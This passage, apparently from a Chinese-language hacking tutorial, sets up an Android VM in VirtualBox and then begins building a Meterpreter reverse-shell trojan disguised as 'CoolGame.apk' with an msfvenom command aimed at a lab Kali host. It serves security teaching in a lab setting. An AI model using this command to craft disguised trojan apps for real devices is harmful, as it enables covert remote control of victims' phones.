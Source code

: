 图 9-1：我们已经在 VirtualBox 中添加了一个 Android 8.1 虚拟机！

你现在准备启动你的 Android 虚拟机了！第一次启动可能需要几分钟（如果屏幕停留黑色超过一分钟，你可能需要重启虚拟机），但最终你会看到像图 9-2 所示的 Android 设备主屏幕。

![f09002](img/f09002.png)

图 9-2：你虚拟 Android 设备的主屏幕

在开始探索虚拟机之前，去 Android 虚拟机的菜单栏，点击**输入**▶**鼠标集成**，取消选中鼠标集成。保持鼠标集成开启会使得在 Android 虚拟机上控制指针变得困难。（因为 Android 虚拟机是为触摸屏设计的，所以在 Android 上使用鼠标本来就可能令人沮丧。）完成这些后，你就可以开始浏览你的虚拟 Android 设备了。

打开 Chrome 浏览器，浏览网页或打开联系人应用并添加几个联系人——你可以尝试任何你想做的事。Android 虚拟机几乎和真实的 Android 平板或手机一模一样，除了它不能打电话，且没有 GPS 等用于定位服务的传感器。记住，当你想离开 Android 虚拟机时，你可以使用右 CTRL 键（Windows）或左 COMMAND 键（Mac）重新控制鼠标，正如我们对待其他虚拟机时一样。

## 启动 Android 木马

现在我们准备好创建一些恶意软件了。就像我们在第六章中对 Windows 虚拟机所做的那样，我们将使用 Meterpreter 木马来感染并控制 Android 虚拟机。我们会把木马隐藏在一个名为*CoolGame.apk*的文件中。Android 使用*APK 文件格式*来分发和安装移动应用程序。按照这些步骤，你将看到攻击者是如何轻松欺骗 Android 用户安装并运行一个感染的应用程序。

1.  登录到你的 Kali 虚拟机并启动 Metasploit。

1.  在 Metasploit 的`msf6`命令提示符下，输入以下命令作为一行，替换`LHOST=`后的 Kali 虚拟机 IP 地址：

    ```
    msf6 > `sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=``10.0.9.4` `-f raw -o /var/www/html/share/CoolGame.apk`
    ```
